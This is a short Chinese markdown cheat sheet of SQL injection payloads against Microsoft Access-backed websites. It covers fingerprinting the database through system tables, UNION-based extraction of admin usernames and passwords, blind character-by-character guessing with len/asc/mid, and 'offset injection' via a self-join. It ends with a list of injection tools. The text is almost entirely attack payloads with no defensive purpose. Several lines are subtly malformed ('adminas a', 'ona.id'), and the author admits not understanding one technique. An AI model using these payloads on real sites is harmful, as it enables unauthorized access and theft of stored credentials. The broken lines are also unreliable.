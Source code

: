 # ACCESS注入
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 判断数据库类型
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;代码查看:
```sql
    sysobjects 是SQL , msysobjects 是ACCESS,前提是允许访问系统表
    and (select count(*) from sysobjects)>0
    and (select count(*) from msysobjects)>0
    
    SQLServer: sysobjects页面正常，msysobject页面不正常
    ACCESS: sysobjects和加msysobjects的SQL语句后，网页显示都不正常
            msysobject后的网页显示正常

```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x02 联合查询法

```sql
    常规判断注入点，查询列数，Access只有一个库
    判断字段数: order by NUM   //根据页面反应得出字段数
    查表: UNION SELECT num,num+1... from admin
    查数据: UNION SELECT 1,admin,3,password from admin
```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x03 逐字猜解法

```sql
    表名,列名可以搜索常见Access表列命名即可
    
    查表：and exists (select * from 表名)
    查列：and exists (select 列名 from 表名)
    查数据：1.确定长度 2.确定asc数据(asc编码)
           1.and (select top 1 len(列名) from admin)=5  //=换成<=5也成立，下同
           2.and (select top 1 asc(mid(列名,位数,1)) from admin)=97
```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x04 偏移注入(能查表，不能查字段)

```sql
    判断字段数: order by NUM   //根据页面反应得出字段数
    爆出显示位: UNION SELECT 1,2,...,NUM from 表名
    查字段:union select1,2,3,4,5,6,7,8,9,10,* from admin 直到页面正常，否则不断用 * 代替减少NUM数
    
    字段数=order by 出的字段数-*号的字段数x2
    偏移注入: union select 1,2,3,4,5,6,7,8,9,10,* from (adminas a inner join admin as b ona.id=b.id)
            1,2,3,4,5,6,7,8,9,10, //上述公式这里理解为剩下的字段数就可以
    (后续百度一下吧，gay主自己也没搞透，不好意思写，误人)
```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x05 工具
[靶场实战](https://www.jianshu.com/p/c1ebccc72486?from=timeline)、SQLMap、穿山甲、胡萝卜、啊D、明小子等，有时候一个注入工具不行，几个一起上还是很阔以的











